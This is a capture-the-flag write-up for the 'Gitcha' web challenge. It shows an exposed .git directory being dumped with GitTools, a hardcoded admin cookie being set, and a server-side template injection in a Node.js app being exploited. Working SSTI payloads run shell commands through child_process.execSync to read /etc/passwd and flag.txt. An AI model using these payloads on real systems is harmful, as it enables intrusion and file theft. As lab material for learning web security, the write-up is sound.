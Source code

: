 # Gitcha

## Description

> Simon is maintaining a personal portfolio website, along with a secret which no one else knows.
>
> Can you discover his secret?
>
> Author: DeconstruCT.F

Tags: _web_ \
Difficulty: _hard_ \
Points: _496_

## Solution

At first glance, the website does not seem to have any vulnerability, however, upon inspecting the webpage source code I found an `HTML` comment suggesting that the `.git` of the site is public. We confirm that when going to the `/.git` endpoint. Exposing the `.git` directory means that anyone can get the website's source code, which is really dangerous since it is much easier for an attacker to identify and exploit vulnerabilities.

> Note: I found [this](https://infosecwriteups.com/exposed-git-directory-exploitation-3e30481e8d75)
> post incredibly helpful, and I used it as a reference to exploit this vulnerability.

First, I cloned `GitTools` to my local machine and executed the following commands:

1. To dump all the contents in `/.git`

```
$ bash gitdumper.sh http://target/.git/ <dest-dir>
```

2. To recover the source code

```
$ extractor.sh \<directory where .git is located\> \<dest-dir\>
```

The directory `0-bfc1e6775569866f6b8fb8e05e6d9b499af89613` is the latest version of the code. The file `index.js` is the most interesting to us because it has all the logic and `route handlers`, for example this one:

```javascript
app.get("/supersecret", async (req, res) => {
  if (checkAdmin(req, res)) {
    const results = await prisma.note.findMany();
    res.render("notes.html", { foo: "bar", notes: results });
  } else {
    res.redirect("/");
  }
});
```

As we can see, there is a supersecret endpoint in `/supersecret`, to get into that endpoint we must pass the `checkAdmin` function.

```javascript
const checkAdmin = (req, res) => {
  if (req.cookies["SECRET_COOKIE_VALUE"] === "thisisahugesecret") {
    return true;
  }
  return false;
};
```

We just need to have the cookie `SECRET_COOKIE_VALUE` with the value `thisisahugesecret`, you can create it in your browser and then get access to the `/supersecret` endpoint.

On that webpage you can only create notes, but ¿how can I exploit it? the database `notes.db` located in the `prisma` directory suggest something:

```sql
$ sqlite3 notes.db
SQLite version 3.40.1 2022-12-28 14:03:47
Enter ".help" for usage hints.
sqlite> .tables
Note                _prisma_migrations
sqlite> SELECT * FROM note;
1|asdasd|asdasd
2|asdasd|asdasd
3|{{7*7}}|asd
4|{{7*7}}|asd
5|asdasdasdasd|{{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}
6|asdasdasdasd|{{range.constructor("return global.process.mainModule.require('child_process').execSync('ls -la')")()}}
```

In the table `Note`, some registers resemble a [`Server Side Template Injection (SSTI)`](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection), I tried to inject the value `{{7*7}}`, and the server responded with `49`, which means it is vulnerable to this kind of attack. So I tried injecting this payload:

```
{{range.constructor("return global.process.mainModule.require('child_process').execSync('cat flag.txt')")()}}
```

This time the server responded by printing the flag!

Flag `dsc{g1t_enum3r4ti0n_4nD_sSt1}`
